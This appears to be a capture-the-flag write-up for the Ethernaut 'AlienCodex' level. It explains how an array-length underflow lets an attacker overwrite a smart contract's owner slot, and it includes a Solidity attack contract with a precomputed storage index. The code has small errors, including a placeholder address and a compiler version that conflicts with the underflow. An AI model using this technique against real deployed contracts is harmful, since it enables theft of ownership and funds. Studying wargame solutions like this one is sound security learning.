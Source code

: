 # AlienCodex  
This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2^256. The user is then able to modify all contract storage.

## Steps:
1. Call `make_contact()` to make contact *true*.
2. THe array size at this moment is zero , so by calling retract an underflow will occur and the array length will be 2^256.This will allow as to access any data slot in the contract.
3. Call function `revice()` with the calculated index of the owner variable and the address.
## code:
````solidity
pragma solidity ^0.8.0;

interface AlienCodex {
    function make_contact() external;
    function retract()  external;
    function revise(uint i, bytes32 _content) external;
}

contract Attack{
    constructor() public payable{

    }

    function exploit(address victim) public {
        AlienCodex alien_codex = AlienCodex(victim);
        alien_codex.make_contact();
        alien_codex.retract();
        alien_codex.revise(
            35707666377435648211887908874984608119992236509074197713628505308453184860938,
            0x000000000000000000000000 `your address`
        );
    }

}
````
## how to calculate the index:
The owner variable is located at slot zero with contact boolean using this with the hashing algorithem used in arrays we can get the index.
For more details about the calculation you can visit this link:https://ylv.io/ethernaut-alien-codex-solution/